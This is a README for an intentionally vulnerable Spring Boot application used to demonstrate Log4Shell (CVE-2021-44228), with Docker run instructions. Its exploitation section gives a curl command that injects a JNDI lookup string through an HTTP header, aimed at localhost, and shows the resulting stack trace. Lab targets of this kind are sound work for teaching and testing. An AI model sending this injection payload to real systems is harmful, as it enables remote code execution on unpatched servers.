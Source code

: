 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 8u191.

![](./screenshot.png)

## Running the application

Run it:

```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```
docker build . -t vulnerable-app
docker run -p 8080:8080 vulnerable-app
```

## Exploitation

You can confirm the application is vulnerable by running:

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

You will see the following stack trace in the application logs:

```
2021-12-10 12:43:13,416 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2749)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
